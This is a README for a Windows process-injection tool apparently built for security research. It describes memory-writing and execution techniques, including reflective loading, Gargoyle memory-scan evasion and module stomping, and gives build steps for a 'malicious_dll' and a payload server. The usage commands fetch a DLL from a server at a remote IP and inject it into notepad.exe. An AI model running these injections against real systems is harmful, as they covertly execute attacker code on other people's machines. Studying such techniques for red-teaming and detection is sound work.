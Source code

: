# Modern Process Injection

This tool was originally created during my summer internship at F-Secure in 2021.

This tool provides a number of process injection methods to inject a DLL into processes on 64-bit Windows.

The tool uses a conceptual split between memory writing and execution methods, inspired by Amit Klein and Itzik Kotler's BlackHat 2019 talk: 'Process Injection Techniques - Gotta Catch Them All'.

The current memory writing methods are:

  - `VirtualAllocEx()` and `WriteProcessMemory()`
    - Allocates RWX memory in target process, writes desired data using `WriteProcessMemory()`
    - If writing to already allocated memory, we have full control of what address we write to
  - `NtMapViewOfSection()`
    - Creates a RWX section, maps this section to the injector with RW permissions, writes desired data, and then maps this section to the target process with RX permissions
    - This does not allow us to write to already allocated memory
  - `memset()`
    - Locates an alertable thread in the target process
      - There might not always be an alertable thread in the process. The injector will poll every 0.5 seconds for 10 seconds until giving up.
    - Allocates RWX memory with `VirtualAllocEx()`
    - Queues a number of APCs that call `memset()` to copy a single byte of the payload into the allocated memory
    - Currently not working with gargoyle executor
  

The current execution methods are:

  - `LoadLibraryA()`
    - This requires the DLL is already on disk, and works by writing the path to the DLL in the target process, and starting a thread that calls `LoadLibraryA()` on that path
  - Reflective loading
    - This writes the entire DLL into the target process, and calls into a reflective loader in the DLL that loads itself, avoiding the need for the DLL to be on disk, and registering the library to the process
    - See [Stephen Fewer's PoC](https://github.com/stephenfewer/ReflectiveDLLInjection) for a more in-depth explanation.
  - Reflective hooking
    - This is similar to reflective loading, but hooks a function in the target process to run the reflective loader, which will then unhook the function, preventing the need to create a new thread.
    - This relies on both needing the hooked function to call at some point, and also for us to write to already allocated memory to create our hook.
  - Gargoyle
    - This technique uses a timer and a ROP gadget to execute the payload.
    - The ROP gadget and trampoline call `VirtualProtectEx()` to make the payload RWX, which should then make itself RW after doing some work.
    - See [the original blogpost](https://lospi.net/security/assembly/c/cpp/developing/software/2017/03/04/gargoyle-memory-analysis-evasion.html) for more information
    - More information is available in `GARGOYLE.md`, since the original Gargoyle PoC is only for x86, whereas a custom implementation for x64 was created for this repository.


The --stomp (or -s) option allows for module stomping with execution methods that support it (currently reflective loading and hooking). This means that the injector will load in a module (specified by the argument to --stomp), and overwrite this module with the payload DLL.

## Building

The injector and malicious DLL are intended to be built on Windows, and the server on Linux.

To build the injector:

```
$ cd process_injection
$ mkdir build
$ cd build
$ cmake ..
$ msbuild ALL_BUILD.vcxproj
```

To build the example DLL:

```
$ cd malicious_dll
$ compile.bat
```

In order for the reflective injection and reflective hooking methods to work with this tool, the DLL to be injected must be built with the `reflective_loader.c` file.

To build the server:

```
$ cd server
$ ./compile.sh
```

To build the gargoyle payload (which is also suitable for reflective loading/hooking):

Note that this requires `nasm`.

```
$ cd malicious_dll
$ compile_gargoyle.bat
```

To build the ROP dll that gargoyle can use (see `rop_dll/README.md` for more info):

Note that gargoyle currently by default requires this payload to be located at `C:\rop.dll`, but this can be changed by editing `gargoyle.cpp` before compiling.

```
$ cd rop_dll
$ compile.bat
```



## Usage

The `LoadLibraryA()` executor method requires the DLL is already on disk. The other methods allow both from disk injection (not recommended), and allow you to supply an IP address and port where the `server` is running to download the DLL from.

Example usage to inject `notepad.exe` with `NtMapViewOfSection()` memory writer and reflective loader executor, with server hosted at `192.168.2.1:80`:

```
$ dll_inject.exe --write 1 --exec 1 -h 192.168.2.1 -p 80 --target notepad.exe
```

To inject with module stomping, supply a full path to the module to stomp. For example, to inject `explorer.exe` with `memset()` memory writer and reflective hooker executor, with server hosted at `192.168.2.1:80`, stomping the Windows module `WindowsCodecsRaw.dll`, we would run the following:

```
$ dll_inject.exe -w 2 -e 2 -h 192.168.2.1 -p 80 --stomp C:\Windows\System32\WindowsCodecsRaw.dll -t notepad.exe
```

